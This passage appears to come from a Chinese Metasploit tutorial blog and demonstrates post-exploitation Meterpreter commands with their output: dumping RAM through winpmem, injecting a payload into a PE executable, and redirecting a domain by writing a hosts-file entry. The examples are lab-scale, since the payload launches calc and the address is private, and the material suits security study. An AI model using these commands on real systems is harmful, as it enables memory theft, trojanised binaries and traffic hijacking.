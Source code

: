 #### Dump内存

```bash
meterpreter > load winpmem
Loading extension winpmem...Success.

meterpreter > dump_ram
[-] Usage: dump_ram [output_file]
meterpreter > dump_ram xp_ram.dat
[+] Driver PMEM loaded successfully
[+] Dumping 1073741824 bytes (press Ctrl-C to abort)

^C[*] Unloading driver
[-] Error running command dump_ram: Interrupt
```

这个功能有点生猛。

#### PE文件注入

向一个PE文件中注入payload。这样一来，当这个PE文件运行时，我们的payload会一起运行，很酷吧！

```bash
meterpreter > load peinjector
Loading extension peinjector...Success.

meterpreter > injectpe -p windows/exec -o cmd=calc -t bof-server.exe
[*] Generating payload
[*] Injecting Windows Execute Command into the executable bof-server.exe
[+] Successfully injected payload into the executable: bof-server.exe
```

测试：

![Bildschirmfoto 2018-10-30 um 10.35.12 PM.png]({{ site.url }}/images/metasploit/C84EDC0120E201F9B6D5F4F0A850F627.png)

参考`lib/rex/post/meterpreter/extensions/peinjector/peinjector.rb`可以了解一下它的原理。


#### host文件注入

这个也挺好玩：劫持静态域名解析。

```
msf exploit(rambo/my_dep_no) > use post/windows/manage/inject_host
msf post(windows/manage/inject_host) > set DOMAIN www.4399.com
DOMAIN => www.4399.com
msf post(windows/manage/inject_host) > set IP 172.16.56.1
IP => 172.16.56.1
msf post(windows/manage/inject_host) > set SESSION 5
SESSION => 5
msf post(windows/manage/inject_host) > exploit

[*] Inserting hosts file entry pointing www.4399.com to 172.16.56.1..
[+] Done!
[*] Post module execution completed
```
